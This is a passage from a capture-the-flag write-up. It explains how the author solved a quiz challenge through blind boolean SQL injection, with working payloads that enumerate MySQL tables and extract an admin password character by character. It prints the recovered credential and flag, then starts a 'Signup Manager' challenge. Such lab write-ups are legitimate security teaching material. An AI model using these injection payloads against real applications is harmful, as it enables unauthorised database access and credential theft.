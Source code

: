 We quickly realize that by putting the payload ```louzogh' or 1=1#```, we fill out the quiz, we get the following result : ```There is 68852 other player(s) with the same name as you!```   

**So there is a Blind Boolean SQL injection !**  

We then put a condition on the string ```There is 0 other player(s) with the same name as you!``` to validate our condition in our SQL query !   
If the string ```There is 0 other player(s) with the same name as you!``` is not present in the answer of our request, then our SQL request is valid !   

I first retrieved the version and validated the database engine using the payload ```louzogh' or ascii(substring(@@version,<incremental counter>,1))=<characters>```  
The version was the latest version of the MySQL engine : ```8.0.22```.  

After a first automation, I find the name of the database : ```quiz```.

By using the payload ```louzogh' or (SELECT count(*) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'quiz')=2#```, we know that the database contains two tables.  

The payload ```louzogh' or (SELECT LENGTH(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'quiz' limit 0,1)=5#``` tells us that the first table is 5 characters long !  

Thanks to the payload ```data = {"name": "louzogh' or (select (select ascii(substring(TABLE_NAME," + str(count) + ",1)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'quiz' limit 0,1))=" + str(offset) + "#"}``` and the ASCII table, we are able to retrieve the name of the table: ```admin```.  

The second table concerns the operation of the application, its name is : ```quiz```.  

By automating, we find that the first 3 columns of the ```admin``` table are : ```id, username, password```, so I stopped there and started the recovery of the admin users.  

The first user has ```id=1``` and his username is ```admin```.  

Finally, in order to retrieve the password of this user, I used the payload : 
```data = {"name": "louzogh' or (select (select ascii(substring(password," + str(count) + ",1)) FROM admin where id=1))=" + str(offset) + "#"}```.  

P.S : My script was python3, and I used the ASCII table to test the different characters (offset parameter).   

**The admin account was : admin:S3creT_p4ssw0rd-$**  

**FLAG : flag{6e8a2df4-5b14-400f-a85a-08a260b59135}**
 

## Day 10 - Signup Manager

Description of the challenge :  
> You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in !  

The first page looks like this : 

![cf_array](./images/10-login-register.png)

Looking at the source code, we can see that there is a README.me file exposed.  

```
# SignUp Manager
SignUp manager is a simple and easy to use script which allows new users to signup and login to a private page. All users are stored in a file so need for a complicated database setup.
